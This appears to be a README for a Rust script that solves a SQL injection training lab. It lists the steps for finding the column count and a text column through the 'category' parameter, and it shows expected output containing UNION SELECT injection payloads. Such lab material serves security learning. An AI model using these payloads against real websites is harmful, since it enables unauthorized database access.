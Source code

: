 # Hack Steps

1. Inject payload into 'category' query parameter to determine the number of columns.
2. Add one additional null column at a time.
3. Repeat this process, increasing the number of columns until you receive a valid response.
4. After determining the number of columns, replace each column with the desired text one at a time.
5. Repeat this process until you receive a valid response.

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
[#] Injection parameter: category
[#] Desired text: tJRvKS
[*] Trying payload: ' UNION SELECT null-- -
[*] Trying payload: ' UNION SELECT null, null-- -
[*] Trying payload: ' UNION SELECT null, null, null-- -
[#] Number of columns: 3
[*] Trying payload: ' UNION SELECT 'tJRvKS', null, null-- -
[*] Trying payload: ' UNION SELECT null, 'tJRvKS', null-- -
[#] the column containing text: 2
[#] Check your browser, it should be marked now as solved
```
